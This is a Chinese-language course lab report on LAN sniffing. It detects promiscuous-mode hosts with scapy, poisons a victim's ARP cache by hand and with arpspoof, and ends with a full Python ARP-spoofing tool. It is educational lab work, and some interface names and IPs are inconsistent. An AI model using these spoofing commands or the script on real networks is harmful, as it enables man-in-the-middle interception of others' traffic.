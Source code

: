 # 网络监听实验
## 实验环境
- 网络拓扑如下图
![](img/topological.png)

| 名称 | IP地址 | MAC地址 |
|--|--|--|
| 受害者 | 172.16.111.109 | 08:00:27:87:0E:91 |
| 网关 | 172.16.111.1 | 08:00:27:49:73:be |
| 攻击者 | 172.16.111.130 | 08:00:27:8f:fe:8b |

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```
![](img/install.png)
## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```
![](img/iplinkshow.png)
```bash
# 在攻击者主机上开启 scapy
scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.109")
```
![](img/scapy1.png)
```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth1 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```
![](img/promiscon.png)
```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.109")
```
![](img/scapy2.png)
- 比对两次结果，发现在受害者主机开启混杂模式后，攻击者主机检测到了受害者混杂模式的开启
```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```
![](img/promiscoff.png)

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
print(gw_mac)
```
![](img/arp.png)
```py
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.109
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.109", hwdst="08:00:27:8f:fe:8b")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
![](img/send.png)
此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```
![](img/arpp1.png)
回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:49:73:be", pdst="172.16.111.109", hwdst="08:00:27:87:0E:91")
sendp(restorepkt1, count=100, inter=0.2)

```

此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![](img/arppoison.png)

## 实验三：使用自动化工具完成ARP投毒劫持实验
使用arpspoof工具完成
```bash
sudo arpspoof -i eth1 -t 172.16.111.109<想要劫持的目标主机> 172.16.111.1<想要伪装成的主机ip>
```
![](img/arpp3.png)

## 实验四：基于scapy编写ARP投毒劫持工具

```py
#!/usr/bin/python3
# -*- coding: utf-8 -*-
from scapy.all import ARP, Ether, get_if_hwaddr, sendp,srp
from scapy.layers.l2 import getmacbyip

def get_mac(target_ip):
	'''
	use getmacbyip function to get target Ip's MAC address
	'''
	target_mac = getmacbyip(target_ip)
	if target_mac is not None:
		return target_mac
	else:
		print("无法获取IP为：%s 主机的MAC地址，请检查目标IP是否存活"%target_ip)
		
def create_arp_target(src_ip,src_mac,target_ip,target_mac):
	'''
    生成ARP数据包，伪造网关欺骗目标计算机
    src_mac:本机的MAC地址，充当中间人
    target_mac:目标计算机的MAC
    src_ip:要伪装的IP，将发往网关的数据指向本机（中间人），形成ARP攻击
    target_ip:目标计算机的IP
    op=is-at,表示ARP响应
	'''
	pkt = Ether()/ARP(op=2,psrc=src_ip,hwsrc=src_mac,pdst=target_ip,hwdst=target_mac)
	return pkt
	
def create_arp_gateway(gateway_ip):

	pkt = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst=gateway_ip)
	return pkt
	
def main():
	src_ip = "172.16.111.109"
	interface="eth0"
	src_mac = get_if_hwaddr(interface)
	print('本机IP地址是：', src_ip)
	print('本机MAC地址是:',src_mac)
	target_ip="172.16.111.121"
	target_mac=get_mac(target_ip)
	print("目标计算机IP地址是：", target_ip)
	print("目标计算机MAC地址是：", target_mac)
	gateway_ip = "172.16.111.1"
	arpbroadcast = create_arp_gateway(gateway_ip)
	# 发送这个 ARP 广播请求
	recved = srp(arpbroadcast, timeout=2)
	# 网关 MAC 地址如下
	gateway_mac = recved[0][0][1].hwsrc
	print("网关MAC地址是：", gateway_mac)
	arpspoofed = create_arp_target(gateway_ip,src_mac,target_ip,src_mac)
	sendp(arpspoofed)
	choice = input("是否恢复受害者主机ARP缓存(y/n):")
	if choice == 'y':
		restorepkt1=create_arp_target(gateway_ip,gateway_mac,target_ip,target_mac)
		sendp(restorepkt1,count=10,inter=0.1)
		restorepkt2=create_arp_target(target_ip,target_mac,gateway_ip,gateway_mac)
		sendp(restorepkt2,count=10,inter=0.1)
		
	
if __name__=='__main__':
	main()

```
## 参考资料
- [课程 · 实验四](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html#)
- [2021-ns-public-EddieXu1125/chap0x04/](https://github.com/CUCCS/2021-ns-public-EddieXu1125/tree/chap0x04/chap0x04)
